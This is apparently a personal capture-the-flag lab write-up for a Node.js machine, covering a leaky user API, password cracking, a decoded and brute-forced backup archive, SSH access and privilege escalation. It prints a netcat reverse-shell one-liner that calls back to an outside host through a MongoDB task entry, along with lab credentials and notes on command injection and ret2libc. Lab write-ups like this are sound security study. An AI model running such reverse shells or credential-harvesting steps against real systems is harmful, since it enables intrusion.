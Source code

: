 ## Takeaway
- When enumerating modern web application, it is a good idea to try to query for different backend APIs for interesting responses
	- There might be sensitive APIs with bad access control.
- <mark>Do take a careful look at PrivEsc of the Machine. So much to learn here.</mark>
## Metadata
- Using `wappalyzer` extension, we can identify that the website is running a stack of  `Angular` + `Express`.![[Pasted image 20231226151102.png]]
- By looking at the network traffic, we can identify lots of API endpoints embedded within the JavaScript files.![[Pasted image 20231226153039.png]]
	- `/api/users/latest` is of the most interesting one. By sending a `GET` request, one can retrieve the `username` and `password hash` of the administrator user.![[Pasted image 20231226153238.png]]
	- Use [crackstation](https://crackstation.net/) to find the actual `password` and obtain a pair of a valid administrator credential `myP14ceAdm1nAcc0uNT:manchester`
- Upon Logging in as administrator, one can download a copy of the backup of the website in development.![[Pasted image 20231226154103.png]]
	- It is not hard to see that the initial file is base64 encoded. Use the command `base64 -d myplace.backup > myplaceDecoded.backup` to decode.![[Pasted image 20231226154254.png]]
	- Anther `file` command will reveal that the decoded file is actually of  `zip` format. However, unzipping requires a password.![[Pasted image 20231226154749.png]]
	- `fcrackzip` can help brute force the password.![[Pasted image 20231226155721.png]]
- Upon inspecting the unzipped the back up file, one can identify a set of credential used to log into `mongoDB` which also happens to be a set of credentials for `SSH`.![[Pasted image 20231226195631.png]]
- 
#### Attack Path
- <mark>Exploitation</mark>
	- Log in as user `mark` through `SSH`.
- <mark>Post-Exploitation</mark>
	- <mark>mark => tom</mark>
		- `linPEAS` identify that another node.js application is running under local user `tom`. The application is executing commands stored in `mongoDB` collection called `tasks` in a regular interval.![[Pasted image 20231226200002.png]]
		- Log into `mongoDB` with mark's credential (`mongo 127.0.0.1/scheduler -u mark -p 5AYRft73VtFpc84k`) and insert a document with command `db.tasks.insertOne({cmd:"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 4444 >/tmp/f"})`. Finally, wait for reverse shell callback.![[Pasted image 20231226202005.png]]![[Pasted image 20231226202144.png]]
	- <mark>tom => root</mark>
		- 1.`Bypass Sanity Checks`: run the binary from the `/` and specify the third argument as `root`
			- `/usr/local/bin/backup -q [token] root`
		- 2. `Command Injection` `ghidra` will identify that sanity checks do not rule out symbol `>` before forming a command to be executed.![[Pasted image 20231227175123.png]]![[Pasted image 20231227185045.png]]
			- whatever after `/bin/bash` needed otherwise shell's `stdout` will be redirected to `/dev/null`
		- 3. `BoF`: `ret2libc`
			- https://www.youtube.com/watch?v=sW10TlZF62w
